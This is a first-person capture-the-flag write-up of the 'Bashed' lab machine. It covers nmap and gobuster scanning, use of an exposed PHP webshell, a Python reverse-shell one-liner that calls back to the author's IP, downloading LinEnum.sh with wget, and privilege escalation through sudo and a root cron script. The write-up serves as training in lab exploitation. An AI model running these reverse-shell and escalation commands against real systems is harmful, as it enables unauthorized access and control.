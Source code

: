 # Writeup and notes for the Bashed box.

Okey so I ran an nmap scan on all ports first.

```shell
nmap -A -sS -p- -T4 -oN bashed_nmap.txt 10.10.10.68
```
The resulting output showed that port was running an http apache server.

```shell
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

I visited the webpage and saw the following page. It talks about a php webshell as a pen-testing tool. It mentions that it is also hosted somewhere on this site.

![index.html](index.png)

Next I tried to bruteforce directories using gobuster.

```shell
gobuster dir -u http://10.10.10.68 -w ~/Documents/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

I found the following directories.

```shell
===============================================================
2020/11/01 15:07:59 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/css (Status: 301)
/uploads (Status: 301)
/dev (Status: 301)
/php (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
[ERROR] 2020/11/01 15:08:47 [!] parse http://10.10.10.68/error_log: net/url: invalid control character in URL
===============================================================
2020/11/01 15:08:59 Finished
===============================================================
```

I found the php-webshell on the /dev page. The shell only had limited capabilities so I tried to get a reverse shell on my machine. First I ran netcat to listin on incomming traffic on port 1235 via the following command:

```shell
nc -lvp 1235
```

Next I found the following reverse-shell [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.mdhttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) on github. I tried a few but the following python command seemed to work.

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Next I used the following command to get a shell with more functionality.

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
Using this I was able to quickly find the userflag, next up was getting root. This took me longer than I wasnted to admit. First I wanted to do some enumeration on the system. I found LinEnum.sh to be a very usefull script for this. However I needed to get in on the machine first. Luckly I found dir that I was allowed to write files to. I hosted a simple python webserver on my own machine using the following command:

```shell
python3 -m http.server 8000
```
Next I was able to transfer the LinEnum.sh File over via wget. I changed the execute permission via chmod and was able to run the enumeration.

```shell
wget 10.10.14.25:8000/LinEnum.sh
chmod +x LinsEnum.sh
./LinEnsum.sh 
```
From the script the following stood out to me:

```shell
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
I was able to spawn a shell as scriptmanager using the following command:

```shell 
sudo -u scriptmanager /bin/bash
```

This gave me access to a special scripts directory. I was a script test.py that was writing a file test.txt. The test.txt had root permissions so there is probably a corn task that executes the script as root. If i deleted the .txt file I respanwed a minute later. I modified the [test.py](./test.py) file such that it would write root.txt to a file in the current directory and got root. A better way would be to spawn a shell via the test.py file as root but hey this worked. Not bad for my first solo box. 


